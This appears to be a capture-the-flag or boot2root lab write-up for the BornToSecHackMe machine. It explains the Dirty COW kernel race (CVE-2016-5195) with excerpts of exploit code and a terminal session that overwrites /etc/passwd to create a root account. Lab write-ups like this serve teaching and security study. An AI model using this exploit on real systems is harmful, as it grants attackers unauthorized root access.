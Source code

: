 # Dirty COW

```
$ ssh laurie@$VMIP
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.60.10's password:
laurie@BornToSecHackMe:~$
```
Since we can login with a normal user `laurie` after exploiting FTP, from this point we can execute a Dirty COW attack. This vulnerability has CVE identifier [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195).

```
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The vulnerability has existed in the Linux kernel since version 2.6.22 and has been patched in version 4.8.3. Our boot2root linux is surely affected.

```c
f = open(filename, O_RDONLY);
fstat(f, &st);
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```
The exploit script firstly create a private copy of a read-only file by calling `mmap`.

```c
pid = fork();
if (pid)
	/* ... */
else {
	pthread_create(&pth, NULL, madviseThread, NULL);
	ptrace(PTRACE_TRACEME);
	kill(getpid(), SIGSTOP);
	pthread_join(pth,NULL);
}
```
Next it calls `fork` to create a race condition. The new thread calls `madvise` function to tell the OS to dump the private copy during the procedure of writing data. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.

```
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiDFcnMz5E5z6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```
When we run the script, it writes a new root to `/etc/passwd` which we don't have writable permission.
